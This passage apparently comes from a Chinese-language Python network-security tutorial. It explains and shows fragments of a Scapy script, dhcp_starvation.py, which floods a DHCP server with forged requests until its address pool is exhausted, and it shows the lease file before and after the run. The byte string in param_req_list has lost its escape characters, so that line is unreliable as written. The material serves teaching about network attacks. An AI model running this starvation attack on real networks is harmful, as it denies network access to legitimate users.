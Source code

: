 *   使用从前面步骤获得的参数形成 DHCP 请求数据包，如下所示：

```py
    print "Obtained IP ",obtained_ip
    print "DHCP server IP ",server_ip
    dhcp_request = eth1/ip1/udp1/bootp1/dhcp2
    dhcp_request[BOOTP].xid= 123456
    name='master'+str(i)

    i =i+1
    dhcp_request[DHCP].options.append(("requested_addr", obtained_ip))
    dhcp_request[DHCP].options.append(("server_id", server_ip))
    dhcp_request[DHCP].options.append(("hostname", name))
    dhcp_request[DHCP].options.append(("param_req_list",
    b'x01x1cx02x03x0fx06x77x0cx2cx2fx1ax79x2a'))
    dhcp_request[DHCP].options.append(("end"))
```

*   发送请求包，并在`0.5`秒休息后发送下一个包，如下所示：

```py
    time.sleep(.5)
    sendp(dhcp_request)
```

代码名为`dhcp_starvation.py`，代码工作分为两部分。首先，攻击者机器发送发现数据包，然后 DHCP 服务器发送具有给定 IP 的 DHCP 提供数据包。在下一部分中，我们的代码提取给定的 IP 和服务器 IP，用给定的 IP 和服务器 IP 创建称为 DHCP 请求的新数据包，并将它们发送到 DHCP 服务器。在运行程序之前，请检查 DHCP 服务器中的 DHCP 租约文件，该文件位于**`\var\lib\dhcpd\dhcpd.lease`**：

![](img/dc460ca4-3045-4bfc-a507-5483971ed578.jpg)

您可以看到该文件为空，这意味着没有分配 IP。运行程序后，应填写文件，如以下屏幕截图所示：

![](img/756c460a-d41c-411b-843a-e5a277e7f81a.jpg)
